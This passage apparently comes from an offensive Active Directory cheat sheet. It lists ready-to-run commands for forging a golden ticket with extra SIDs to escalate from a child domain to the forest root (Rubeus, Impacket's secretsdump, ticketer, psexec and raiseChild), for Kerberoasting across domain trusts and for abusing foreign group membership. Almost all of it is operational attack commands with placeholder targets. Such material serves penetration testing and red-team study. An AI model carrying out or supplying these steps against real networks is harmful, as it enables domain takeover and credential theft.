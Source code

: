 ```PowerShell

# Performing the attack on Rubeus
.\Rubeus.exe golden /rc4:<KRBTGT NT Hash> /domain:<child domain> /sid:<child domain sid>  /sids:<group to compromise sid> /user:Tyler /ptt

# Check that we have a golden ticket in memory
klist
# From here we can DCSync the main domain
```

Performing the attack on Linux:
```shell
# Use DCSync to grab KRBTGT hash
secretsdump.py <FQDN>/<user>@<DC IP> -just-dc-user <domain>/krbtgt

# Impacket, grab child SID
lookupsid.py <FQDN>/<user>@<DC IP> | grep "Domain SID"

# Repeat but with DC of root domain
lookupsid.py <FQDN>/<user>@<DC IP> | grep -B12 "Enterprise Admins"

# Impacket, construct golden ticket
ticketer.py -nthash <KRBTGT hash> -domain <FQDN child domain> -domain-sid <child domain sid> -extra-sid <group to compromise sid> Tyler

# Set KRB5CCNAME Environment Variable
export KRB5CCNAME=Tyler.ccache 

# Getting a shell using psexec.py
psexec.py <FQDN child domain>/Tyler@<Root DC Name> -k -no-pass -target-ip <DC IP>

# Getting a shell using raiseChild.py (does everything automatically)
raiseChild.py -target-exec <root DC IP> <FQDN child>/<child domain admin account>
```
### Attacking Cross Domain Trusts
Kerberoast attacks can be performed across trusts. In a domain with inbound or bidirectional trust, we can pivot by cracking a Kerberos ticket if no other methods are found.
```PowerShell
# Find users with SPNs across domain trusts
Get-DomainUser -SPN -Domain <second domain> | select SamAccountName

# Enumerate that account
Get-DomainUser -Domain <second domain> -Identity <account> |select samaccountname,memberof

# Grab a ticket for that account in the second domain
.\Rubeus.exe kerberoast /domain:<second domain> /user:<account> /nowrap
```

Abusing password reuse and group membership:
```PowerShell
# Check for foreign group memberships
Get-DomainForeignGroupMember -Domain <second domain>
Convert-SidToName <SID>

# If we have the creds for that user on the first domain, we can access the second domain using the following
Enter-PSSession -ComputerName <second domain dc name> -Credential <sid to name output>
```
